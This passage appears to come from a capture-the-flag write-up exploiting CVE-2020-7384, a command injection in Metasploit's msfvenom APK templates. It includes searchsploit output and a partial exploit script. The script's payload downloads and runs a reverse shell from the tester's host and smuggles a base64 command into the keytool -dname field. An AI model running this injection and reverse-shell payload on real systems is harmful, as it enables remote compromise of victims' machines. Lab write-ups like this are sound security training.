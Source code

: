 Running through the application, it has three (3) functions:
1. ping
2. payload creator via msfvenom
3. exploit-db

msfvenom offers three (3) environments:
1. windows
2. linux
3. android

After googling, we found that the `Metasploit Framework` installed vulnerable to [**CVE-2020-7384: Rapid7 Metasploit Framework msfvenom APK Template Command Injection**](https://packetstormsecurity.com/files/160004/Rapid7-Metasploit-Framework-msfvenom-APK-Template-Command-Injection.html).

CVE Description:

> Rapid7's Metasploit msfvenom framework handles APK files in a way that allows for a malicious user to craft and publish a file that would execute arbitrary commands on a victim's machine. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0.

## CVE-2020-7384: Rapid7 Metasploit Framework msfvenom APK Template Command Injection

`exploit-db` shows the following available exploit scripts:

```terminal
$ searchsploit metasploit apk
----------------------------------------------------------------------- -------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- -------------------------
Android Janus - APK Signature Bypass (Metasploit)                      | android/local/47601.rb
Metasploit Framework 6.0.11 - msfvenom APK template command injection  | multiple/local/49491.py
-------------------------------------------------------------------------------------------------
```

Use the following [**exploit**](https://www.exploit-db.com/exploits/49491) and we managed to perform RCE.

We need to customize the exploit script with the following payload:

```python
#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'wget http://10.10.14.16:8000/rev.py; sleep 2; python3 rev.py' # download reverse shell, sleep for 2s and execute the script
print(payload)

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | sh #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

# tmpdir = tempfile.mkdtemp()
# apk_file = os.path.join(tmpdir, "evil.apk")
apk_file = "dug.apk"
# empty_file = os.path.join(tmpdir, "empty")
empty_file = "empty"
#keystore_file = os.path.join(tmpdir, "signing.keystore")
keystore_file = "signing.keystore"
```